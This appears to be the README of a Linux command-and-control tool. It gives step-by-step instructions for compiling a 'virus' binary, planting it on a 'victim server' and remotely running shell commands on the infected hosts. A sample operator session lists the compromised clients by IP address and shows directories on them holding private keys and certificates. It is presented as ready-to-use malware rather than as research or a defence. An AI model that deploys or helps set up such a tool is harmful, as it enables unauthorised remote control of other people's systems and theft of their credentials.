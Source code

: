 Linux Server C2 Controller

Step 1:
Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address

Step 2:
Copy tcsl.cpp to your Linux Server
virus.cpp to your victim server
host.cpp to your local machine as control side
and then compile:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ virus.cpp -o server 

Step 3: 
Open 3 terminals and run the command seperately:
./tcsl
Support any amounts of Clients' connections
the Host and Client is auto-recognized:  
./virus
./host

Step 4:
Please use 'hs' followed with the client numbers you pick.
For example: 'hs 1'
Use 'hh' to check the connected clients.

Step 5:
Enjoy your commands in the host terminal and control your client as terminal.
For example:
Connected to the server.
No client connected.
┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.
┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.
┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.
┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]

└─# hs 2
Client 2 selected.
┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.
┌──(root♪hr0g) - [~1]
└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.
┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
